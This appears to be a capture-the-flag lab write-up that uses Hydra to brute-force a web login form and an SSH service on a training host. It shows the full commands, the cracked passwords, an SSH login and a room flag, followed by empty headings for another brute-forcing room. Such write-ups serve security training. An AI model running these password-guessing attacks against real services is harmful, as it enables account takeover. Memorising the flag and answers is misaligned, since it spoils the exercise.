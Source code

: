 ## Hydra

Running Hydra against a website with a post-form 
```
hydra -l <username> -P <wordlist> 10.10.152.159 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

Running Hydra against a service
In this case it's ssh
```
hydra -l <username> -P <full path to pass> 10.10.152.159 -t 4 ssh
```

#### Using Hydra

Target IP: 10.10.152.159

###### Questions
Use Hydra to bruteforce molly's web password. What is flag 1?

```
hydra -l molly -P rockyou.txt 10.10.152.129 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -v

[80][http-post-form] host: 10.10.152.159   login: molly   password: sunshine
```


Use Hydra to bruteforce molly's SSH password. What is flag 2?
```
hydra -l molly -P rockyou.txt 10.10.152.159 ssh 

[22][ssh] host: 10.10.152.159   login: molly   password: butterfly
```

```
ssh molly@10.10.152.159 
password: butterfly
cat flag2.txt
THM{c8eeb0468febbadea859baeb33b2541b}
```

## Brute Force Heroes

#### Introduction

#### Getting started - Burp Suite

#### Brute forcing - Burp Suite

#### Brute forcing - Patator

#### Brute forcing - ZAP
#### Brute forcing - SSH (Hydra + Patator)

#### Brute forcing - Hashes

#### Conclusion

